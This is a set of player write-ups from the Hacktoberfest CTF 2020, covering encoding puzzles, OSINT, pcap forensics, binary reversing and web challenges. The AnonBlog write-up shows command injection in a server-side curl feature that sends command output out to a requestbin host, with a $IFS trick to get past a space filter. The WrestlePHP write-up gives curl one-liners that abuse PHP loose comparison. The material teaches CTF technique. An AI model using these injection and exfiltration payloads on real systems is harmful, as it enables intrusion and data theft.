




I would love to thanks all the participants and core team members for successfully hosting Hactoberfest CTF 2020. In this write-up, top players had been shared their writeups.

#### Pr0d33p – Convert HEX to base64

Challenge Flag: **hacktoberfest_ctf{c4n_y0u_r34ch_th1s_st4g3}**
I took the string from the challenge, i.e. 6861636b746f626572666573745f6374667b63346e5f7930755f72333463685f746831735f73743461337d.

When I decoded it from HEX to ASCII, I got **hacktoberfest_ctf{c4n_y0u_r34ch_th1s_st4a3}**.

The last part of the flag (i.e. st4a3) doesn’t seem readable. I could submit st4ag3 or st4at3/st4a73, but the challenge had only two submission attempts. Then, I read the challenge description and found out that I need to become non-1337. So, I thought about replacing 1337 with something else in the string.

I decided to try all the numbers from 0 to 9 in all of the 4 characters. Luckily, I had to replace just the “1” from “1337”, because I obtained the flag while replacing 1 with 7.

Therefore, the final string was 6861636b746f626572666573745f6374667b63346e5f7930755f72333463685f746831735f73743467337d. I decoded it from HEX to ASCII and obtained the flag.

#### Prabesh01 – Gaius

Challenge Flag: **hacktoberfest_ctf{sh1ft_c1ph3r_n4m3d_4ft3r_jul1us_c43s4r}**
Write-up:
What I have is: hw1ui_r1ew3g_c4b3s_4ui3g_yja1jh_r43h4g.
Looks like some weird jumbled letters, right?. As I have already face this kind of challenge earlier in other ctfs, I quickly visited https://rot13.com/ and pasted it there and got the flag at rot 11.



As additional info, if you faced such jumbled letters while playing ctfs, it not necessary that it’s encoded with rot. It might also be a caesar cipher or something else.

#### 0xrabin AnonBlog

**hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}**

<b>Challenge Description</b>

There is a place Anonymous blog, people say you cannot share a link there because it’s their policy. They say sharing link leads to many security issues, though I think it’s just the opposite based on their specific context(their new feature)

http://nicehellonice-env.eba-p2umpa4t.us-east-1.elasticbeanstalk.com

It was a site where we can add posts through /post. Cross-Site Scripting was possible. At first, I thought we use an XSS payload to grab the cookie of the admin but it seemed like XSS was just a rabbit hole.

Checking the robots.txt of the site we find /features.txt that says

Newly added feature: Special Hyper Linking!

```text
- Automatically converts links into a hyperlink.
- Try setting any URL in the Content, and see it!!
  NOTE: For some dumb reason, link-sharing was not allowed since day 1.
  But due to requests from the users, we made it available for it. But
  you still cannot share links, so this application clones the URL
  locally (using curlY "ree--quest-TOR")\*, then returns it to you
  from the application itself.

---

\*pronounced "curly requester"
```

So in my head, I thought it as of curl https://site being executed whenever HTTP/https word is used. So the next step was to get code execution.

At first, I tried common bypasses like && || but since the output was not being shown, I was not sure if the command was being executed.

So I thought of another approach to send command output to a URL. I quickly set up a request bin URL and crafted my payload using command substitution like

http://requestbin.net/r/1bvgn5b1/?output=$(command|base64) So what this will look like

```curl
curl http://requestbin.net/r/1bvgn5b1/?output=$(command|base64)
```

\$(command|base64) get executed and base64 output would be appended to output =
curl http://requestbin.net/r/1bvgn5b1/?output=base64output
And through http://requestbin.net/r/1bvgn5b1?inspect I could view the requests being made to the site.

Now that we have command execution with proper output. It was time to find the flag. Actually using space in command was blocked. So I had to use \$IFS instead of every command that contains space.

For example: $(ls -la) became $(ls\$IFS-la).

I looked around and found a file named zhululu_2e3817293fc275dbee74bd71ce6eb056_FLAG_4e4d6c332b6fe62a63afe56171fd3725.txt which contained the flag.

Then I read the file using $(base64$IFS-w$IFS\0$IFS/zh\*)

> Sidenote
> There is \ before 0 because $IFS0 would simply escape 0 it is behaviour of $IFS to escape suffix if there is no use of symbols like -, | etc.

On the request bin inspect tab I recieved

Q29uZ3JhdHMhISBZb3UgbWFkZSB0aWxsIHRoZSBmbGFnIPCfjokKCgpHcmFiIGl0LCBpdCdzIGJlbG93OgpoYWNrdG9iZXJmZXN0X2N0ZntzaGVsbF9rZWtfcmljZV9mYmY4NjE5ZmY3ZjE1NjEzOWNkYWY0ZDdlM2UwNmQ3NX0K

Decoding the base64 we get

```text
Congrats!! You made till the flag 🎉
Grab it, it's below:
hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}
hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}
```

#### 0xrabin Not a Script Kiddie

**hacktoberfest_ctf{scr1pt1ng_1s_sup3r_h3lpful}** We were provided with a file. Not-a-Script-Kiddie Running the file we find out that it’s a zip file.

```text
file Not-A-Script-Kiddie
Not-A-Script-Kiddie: Zip archive data, at least v2.0 to extract
```

After unzipping the file I found out that it was nested multiple times with the same name Not-A-Script-Kiddie So I ran a simple while loop to unzip nested zip.

```text
while true; do echo y | unzip Not-A-Script-Kiddie; done
```

After a while, I saw that the loop had returned an error message saying it was unable to extract the zip. So I checked the file, it was actually a different file with zip headers. The head part of the file read:

```text
#This is a shell archive (produced by GNU sharutils 4.15.2). #To extract the files from this archive, save it to some FILE, remove #everything before the ‘#!/bin/sh’ line above, then type ‘sh FILE’.
```

Then I did as told and ran

```text
sh Not-A-Script-Kiddie
x - created lock directory \_sh16830.
x - extracting CKsibzcccS (text)
x - removed lock directory \_sh16830.
```

It created a new file that was LZMA compressed. I renamed it to lzma.xz and ran

```text
unxz lzma.xz
```

which then extracted a tar file and upon extracting the tar file It created a new directory with a new shell archive file. Upon extracting the shell archive file I got lzma file. Thus I realized that this process had been done recursively to encode the file. So I wrote a script to automate this extracting process

```text
#lzma =&gt; tar =&gt; folder/sharcl
```

```Python
import os, time
os.chdir('/tmp/workdir') #This directory contains lzma file
while True:
initialfile = (os.listdir()[0]) #Gets LZMA file from /tmp/workdir

    os.rename(initialfile,"lzma.xz")                  #Renames the LZMA file to lzma.xz
    newfile = (os.listdir()[0])                        #Gets renamed file,
    os.system("unxz "+newfile)                        #Unxzing renamed file

    tarfile = "lzma"                                #Unxzing lzma.xz gives lzma(which is a tar file)
    os.rename(tarfile,"ok.tar")
    os.system("tar xvf "+"ok.tar")                    #Untar the tar

    directory = next(os.walk('.'))[1][0]            #Untarring makes a directory with shar file
    os.chdir('./'+directory)                        #Go to the directory

    sharfile = (os.listdir()[0])                    #Get shar file name
    os.system("sh "+sharfile)                        #Execute it and extract lzma
    os.system("rm "+sharfile)                        #Delete the shar file
```

After running the script for a while I found a filenamed hello.txt with flag in it.

```text
<code>hacktoberfest_ctf{scr1pt1ng_1s_sup3r_h3lpful}</code>
```

#### 0xOooo – CTF 101

Challenge Flag: **hacktoberfest_ctf{TH4NK_Y0U_F0R_4TT3ND1NG!}**
Write-up:
The challenge description says Only the people who attended the presentation on “Getting Started with CTF 101” can solve this challenge. Did you attend? since i had attended the session we got to see a flag at the end of Binit Ghimire’s presentation who is also one of the challenge authors as **hacktoberfest_ctf{TH4NK_Y0U_F0R_4TT3ND1NG!}**

#### PrashantDhungana – I Cee Macha Pokhari, where cow spoke

Challenge Flag: hacktoberfest_ctf{kassam_gai_le_bolyoo_ma_dhateko_hoina}
Write-up:
The challenge included a pcap file and a hint about the flag being in the IP 127.0.0.1

A pcap or Packet Capture file is a file which contains traffic between a Source and a Destination including the respective Protocol,Data etc.

So on opening the file on Wireshark and applying the filter ip.addr==127.0.0.1.1 we only get the Traffic for 127.0.0.1

The Protocol ICMP was being used to communicate. This was already hinted at by the title of the Challenge- I Cee Macha Pokhari (ICMP).On analyzing the packet, Dialogue between the Seller, Buyer, and the Cow was included.

Cow only spoke the alphabets “M” and “O”.

At 1st I thought it might be binary but on closer look, there were 4 combinations for those characters(one for capital letter and other for small). So I then thought about searching for Moo language / Cow language and then I found out there is an Esoteric Language called Cow. Then I quickly googled an interpreter for the language and found this SITE and pasted the code and the site spat out the flag as:

**hacktoberfest_ctf{kassam_gai_le_bolyoo_ma_dhateko_hoina}**

#### 0xrabin Tweet tweet bird

hacktoberfest_ctf{rickrolled_for_the_flag}
Challenge Description

```text
notes Chari maryo sisai ko golli le notes notes Maya basyo tyo mitho boli le notes notes Maya sathai ma notes notes Udayo rellai le notes notesnotes Udayo rellai le notesnotes notesnotes Udayo rellai le.. notesnotes Challenge by Captain Nick Lucifer
```

Both from the lyrics of the song and the emoji of a bird it was clear that it was a reference to Twitter. Also, there was a link to challenge the author’s Twitter handle. The most recent tweet on the profile was the link to https://w38-ho0k.000webhostapp.com/

Visiting the website it seemed that content has been removed. So I checked Wayback Machine to find the removed content. In the web archive, I found the following assets

https://w38-ho0k.000webhostapp.com/ https://w38-ho0k.000webhostapp.com/index.css https://w38-ho0k.000webhostapp.com/flag.mp4 https://w38-ho0k.000webhostapp.com/noflag.png https://w38-ho0k.000webhostapp.com/index.js

At first, I checked the image file and ran all of the steg forensics in it but did not find anything. The js and CSS files also seemed normal. So the last file that remained to be checked was flag.mp4. First I did some low hanging operations like checking metadata but did not find anything. The video file did have the same noflag.png embedded in it.

After these operations, I extracted all the frames from the video using FFmpeg. ffmpeg -i noflag.mp4 frames/out-%03d.jpg Then I manually checked through every frame and in one of the frames flag was seen. I wrote down the flag and submitted it. **hacktoberfest_ctf{rickrolled_for_the_flag}**

#### 0xOooo – Facebook Archive

Challenge Flag: **hacktoberfest_ctf{h0w_4b0u7_sh4r3d_p0s7_3d17_h1st0ry}**
Write-up:
here the challenge description said One of our challenge authors shared the post from our event page on Facebook just 12 hours before his presentation. Can you exfiltrate the flag from what he shared? so viewing facebook profiles of Mahesh Nikhil and binit I found binit sharing the post Make sure not to miss the session in 12 hours from now viewing its edit history we get the flag as hacktoberfest_ctf{h0w_4b0u7_sh4r3d_p0s7_3d17_h1st0ry}



#### Pr0d33p – 1337 Adventure

Challenge Flag: **hacktoberfest_ctf{Gondar, AM, ET}**
Write-up:
Didn’t have an idea on how to start, was thinking it has something to do with geo co-ordinates.

So, I visited https://opencagedata.com/demo. Entered 13, 37 in Coordinates, and decoded it.

Seen ethiopia North Gonder, Ethiopia. I searched for “North Gonder, Ethiopia” on google. Opened Wikipedia, I figured out that the spelling of “Gonder” is actually “Gondar”.

Noticed this was located in Amhara Region, Ethopia.

I expected the full city name, the region and the country might have been represented in the form of their respective codes.

Finally taken in flag format with hacktoberfest_ctf{Gondar, AM, ET} and also put spaces between another word and comma. submitted the flag and boom, I was the first and only one to solve this challenge.

#### Kiran Ghimire- Twine

Challenge Flag: **hacktoberfest_ctf{str1ngs_2_w1n}**
Write-up:
Easy challenge.Just string it , you will get the password.

```text
strings Twine
/lib64/ld-linux-x86-64.so.2
112basic*stringIcSt11char_traitsIcESaIcEE6appendERKS4*
memcmp
strtoul
**cxa_finalize
**libc*start_main
GCC_3.0
CXXABI_1.3
GLIBCXX_3.4
GLIBCXX_3.4.21
GLIBC_2.2.5
u/UH
ATSH
[A\]
[]A\A]A^A*
stoul
**y0u_g0t_17**
36b746
f77316e7d
```

```bash
./Twine
Enter password: y0u_g0t_17
hacktoberfest_ctf{str1ngs_2_w1n}
```

#### 0xrabin I_LOVE_SO_MANY_ARGS

**hacktoberfest_ctf{OH_YES_I_DID_IT}**
Challenge Description

This song might lead you somewhere(hira thaha bhayena, flag chai hola) https://www.youtube.com/watch?v=9TgYy4H29Z4&t=14

I just opened the binary in binary ninja and saw the decompiled code

A particular line peeked my interest. printf(data_2068, 0x46, 0x4c, 0x41, 0x47, 0x4f, 0x48, 0x5f, 0x59, 0x45, 0x53, 0x5f, 0x49, 0x5f, 0x44, 0x49, 0x44, 0x5f, 0x49, 0x54) Decoding the HEX 0x46, 0x4c, 0x41, 0x47, 0x4f, 0x48, 0x5f, 0x59, 0x45, 0x53, 0x5f, 0x49, 0x5f, 0x44, 0x49, 0x44, 0x5f, 0x49, 0x54 FLAGOH_YES_I_DID_IT

**hacktoberfest_ctf{OH_YES_I_DID_IT}**

#### Pr0d33p – Supply Me Something

Challenge Flag: **hacktoberfest_ctf{y0u_4r3_4_1337_m4t3}**
Write-up:
So I got the supply binary file from the challenge and tried decompiling it. On a normal run, it would request me to try again. I saw 0x539 in the decompiled code which when converted to decimal becomes 1337.

I thought about supplying 1337 arguments to the binary but it still provided the same message. Then I thought about what if the binary is taking the filename as the first argument.

And this led me to try out with 1336 arguments because ./supply would be the first argument. While running it, I was given the flag:

**hacktoberfest_ctf{y0u_4r3_4_1337_m4t3}**

#### Prabesh01 – WrestlePHP

Challenge:


Challenge Flag: **hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}**
Write-up:
Note: If you don’t feel comfortable reading this writeup, you could see a quick walkthrough video from here. I have done slightly differently than what’s written in this writeup. The main idea is the same though.

Here is a one-liner solution for some lazy folks out there:

curl -H "User-agent: Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=&nice[]=admin&ecin[]=hello" -d "parm=QNKCDZO&mrap=240610708&ctf=0e1137126905" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" | grep Flag

So, let’s beat PHP

The only thing we have is this: “7068702e30646179676f642e78797a”. What could this be? Of course, it’s some kind of encoded text. To decode it, we first need to find out which algorithm it is encoded with. To do so, just use any cipher identifier. I used boxentriq’s cipher identifier. From the analysis result, we get that the cipher used is hexadecimal. So let’s decode it. Again, you can use any hexadecimal decoder. I used cryptii’s hex decoder. After decoding, we get this: php.0daygod.xyz. Looks like a URL, right? Visiting the URL takes us to the site stating “WrestlePHP – Can you beat PHP?”.


Since I had already played such kinda ctf before, I had a rough idea of how to solve this one. Starting from the top of the code, the first if-else condition is checking if the user agent is “Yes, I am a human.”. If not, it would print “You are a bot, mate!” which can be seen at the bottom of the site. So I intercepted the request to the site with burp suite, changed the user agent value with “Yes, I am a human.” and forwarded it. In the browser, at the bottom of the site, we can see that the text “You are a bot, mate!” has changed into “Nice! Now that we know you are a human, you can proceed further.”. We also got the flag format of the challenge. Now that I know what’s going on, I intercepted the request again and sent it to the repeater.

Now, we have passed the first check. Now keeping the user agent unchanged, we move to the next if-else conditional check. The second check is checking for the request header. It checks if the header “Sagarmatha-Hacktoberfest-CTF” is present with its value “https://hacktober.tk/“. So I went back to the repeater and added the header “Sagarmatha-Hacktoberfest-CTF” with its value “https://hacktober.tk/“. At the end of the response tab, we god the first word of the flag: `hacktoberfest_ctf{3qu4l17y}`.

Now that we have passed the second check, let’s see what the third one wants. Looks like the third check is looking to getting request “hello” with its value set to hi. Easy, right? In repeater, i edited the first line from `GET / HTTP/1.1` to `GET /?hello=hi HTTP/1.1`. In response, we got: `hacktoberfest_ctf{3qu4l17y_1s_n07_}`.

Let’s move on to the fourth check. This one is a little tricky, it is checking for a get request named world whose value must not be equal to “0x10001”. Not a problem yet. But a strcasecmp function is being used. In short, strcasecmp function checks if two strings are the same or not and this function is case insensitive. For an example, `strcasecmp(“apple”, “apple”)` returns 0 because both the strings are same. If they aren’t the same, it will return something else other than zero. So, in this fourth check, it says the output of `strcasecmp($_GET[‘world’], “0x10001”)` must be zero, which means they must be equal. Weird, right? the code is saying that the value of getting the parameter world must not be “0x10001” but at the same time it must be “0x10001”. How the hell is this possible??!! But it’s easy, the tricky part here is the equal sign. Did you noticed, in the third check, there was triple equal sign used `$_GET[‘hello’] === “hi”`. But in this code, only a double equal sign is used. This is gonna help us pass this check. It would take much time to explain this but in short, using double equal for comparing strings in PHP is unsafe. It is a loose comparison. Read more about this from here or google yourself. Ok, to bypass it just replace the first line from `GET /?hello=hi HTTP/1.1` to `GET /?hello=hi&world[]= HTTP/1.1` In response, the flag we got is : `Flag: hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y}`

3 more to go. The fifth check can also be solved similarly to the fourth one since it too uses a double equal comparison. Now, our first line in request will be `GET /?hello=hi&world[]=&nice[]=anything&ecin[]=something HTTP/1.1`. Sending this request gives us this flag: `hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_}`

Looking at the code of our second last check, it is seeking for a post request with its name ctf whose value must be equal to its own md5 hash. Now, this is a rare case. Anyway, I tried to make post requests to the site using burp suite but for some reason, I wasn’t able to do so. I didn’t have much time to try to fix it since it was like 9:30 Pm and my parents could turn off the wifi router any minute. SoI tried to curl using this command: “`curl -H “User-agent: Yes, I am a human.” “https://php.0daygod.xyz/?hello=hi&world[]=&nice[]=admin&ecin[]=hello” -d “ctf[]=something” -H “Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/” | grep Flag“`. For some reason, ctf[]= didn’t work this time. Since I didn’t have much time, I searched if there is really a string whose md5 hash is equal to itself. Then I got to this Github repo. Actually, no string has been discovered whose md5 hash is completely the same as itself but there are few whose initial characters are the same. Since the double equal is used here, it will accept it since it is a loose comparison. So our command becomes like this: “`curl -H “User-agent: Yes, I am a human.” “https://php.0daygod.xyz/?hello=hi&world[]=&nice[]=admin&ecin[]=hello” -d “ctf=0e1137126905” -H “Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/” | grep Flag“`

Finally, we are on the last check. Honestly, writing this writeup sucked more than solving the tweet-tweet challenge from OSINT. Ok, then the code is looking for post request with header parm and mrap whose value mustn’t be equal but their md5 hash must be equal. I had already seen this kinda challenge in previous ctfs, so it was too easy for me. But when I faced this challenge for the first time, I was like wtf! How can this be possible? I googled it and found the solution hardly. The answer is 240610708 & QNKCDZO. The logic is the same as that of the previous check. SO, our final command is “`curl -H “User-agent: Yes, I am a human.” “https://php.0daygod.xyz/?hello=hi&world[]=&nice[]=admin&ecin[]=hello” -d “parm=QNKCDZO&mrap=240610708&ctf=0e1137126905” -H “Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/” | grep Flag“`

And our final flag is : **hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}**
